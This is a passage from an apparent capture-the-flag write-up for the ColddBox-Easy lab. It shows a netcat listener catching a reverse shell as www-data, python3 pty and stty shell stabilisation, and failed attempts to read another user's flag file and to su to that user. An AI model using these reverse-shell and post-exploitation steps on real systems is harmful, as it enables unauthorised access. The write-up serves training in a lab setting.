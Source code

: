 ## Horizontal privilege escalating

We are now connected!

````commandline
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.8.208.30] from (UNKNOWN) [10.10.86.15] 40506
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:32:31 up  1:56,  0 users,  load average: 0.00, 0.63, 1.89
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ pwd
/
$
````

`Python` is not installed on the target machine, using `python3` then to stabilise the shell. Wanted to grab the `user.txt` flag. But no luck, it's only readable by user `*****`. Tried also to switch to user `*****`, but he does not use the same password as on the `WordPress` website.

````commandline
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ TERM=xterm
TERM=xterm
www-data@ColddBox-Easy:/$ ^Z
[1]+  Stopped                 nc -nlvp 4444
┌──(itchy㉿scratchy)-[~/Documents/THM/colddboxeasy]
└─$ stty raw -echo; fg
nc -nlvp 4444

www-data@ColddBox-Easy:/$

www-data@ColddBox-Easy:/$ cd /home/c0ldd/
www-data@ColddBox-Easy:/home/c0ldd$ cat user.txt 
cat: user.txt: Permission denied
www-data@ColddBox-Easy:/home/c0ldd$ ls -lah
total 24K
drwxr-xr-x 3 c0ldd c0ldd 4.0K Oct 19  2020 .
drwxr-xr-x 3 root  root  4.0K Sep 24  2020 ..
-rw------- 1 c0ldd c0ldd    0 Oct 19  2020 .bash_history
-rw-r--r-- 1 c0ldd c0ldd  220 Sep 24  2020 .bash_logout
-rw-r--r-- 1 c0ldd c0ldd    0 Oct 14  2020 .bashrc
drwx------ 2 c0ldd c0ldd 4.0K Sep 24  2020 .cache
-rw-r--r-- 1 c0ldd c0ldd  655 Sep 24  2020 .profile
-rw-r--r-- 1 c0ldd c0ldd    0 Sep 24  2020 .sudo_as_admin_successful
-rw-rw---- 1 c0ldd c0ldd   53 Sep 24  2020 user.txt
www-data@ColddBox-Easy:/home/c0ldd$ su c0ldd
Password: 
su: Authentication failure
www-data@ColddBox-Easy:/home/c0ldd$ su c0ldd
Password: 
su: Authentication failure
www-data@ColddBox-Easy:/home/c0ldd$
````
